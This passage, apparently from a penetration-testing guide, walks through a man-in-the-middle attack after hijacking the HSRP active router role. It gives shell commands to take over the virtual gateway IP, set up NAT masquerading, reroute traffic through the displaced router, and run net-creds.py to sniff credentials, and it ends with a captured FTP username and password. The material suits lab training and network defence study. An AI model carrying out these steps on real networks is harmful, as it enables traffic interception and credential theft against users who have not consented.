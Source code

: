 
**As we can see, the Active router is now our attacking system. The priority value is 255.**

**After injection we need to create a secondary IP address on our network interface with the value of the virtual IP address in the HSRP domain. You should also specify 24-bit mask. In this way, legitimate traffic will be looped back to us, because the virtual IP address used in the HSRP domain is the default gateway address for hosts.**

```
~$ sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
```

**We set up the well-known Source NAT (masquerading) to intercept all traffic:**

```
~$ sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**We remove the default route on our machine and write a new one which will go through the former Active router (its address is 10.10.100.100). Even though we have hijacked the active role from the router, it will still be able to route traffic.**

```
~$ sudo route del default
~$ sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

**Now we are the “man in the middle”. Let’s run** [**net-creds.py**](https://github.com/DanMcInerney/net-creds)**:**

```
~$ sudo python2 net-creds.py -i eth0
```

After running the utility, I will reproduce an attempt to authenticate to the FTP server at 172.16.100.140:

```
~$ ftp 172.16.100.140
```

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

As a result, we get creeds from the FTP server: **insomnia:betrayal**
